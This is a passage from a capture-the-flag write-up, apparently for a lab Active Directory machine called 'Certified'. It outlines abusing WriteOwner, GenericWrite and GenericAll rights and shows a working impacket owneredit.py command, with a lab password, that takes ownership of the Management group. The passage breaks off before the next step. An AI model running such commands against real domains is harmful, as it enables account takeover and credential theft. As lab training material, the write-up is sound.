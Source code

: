2-Now we are member of Management Group with full privilges we can use GenericWrite with judith.mader for management_svc and grab his NT hash

3-We have genericAll for ca_operator so we can change its password etc…

Lets start!!!!

### WriteOwner

Bloodhound already give us command so we  can use it directly

![alt text](<../assets/images/Screenshot 2025-03-12 at 22-04-40 BloodHound(1).png>)

```sh
➜  certified python3 /opt/impacket/examples/owneredit.py -action write -new-owner 'judith.mader' -target 'management' 'certified.htb'/'judith.mader':'judith09'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
```

nice!! lets give us full privileges on Management

im gonna use [my bloodyAD repo](https://github.com/lineeralgebra/autobloodyAD) for this one

usage: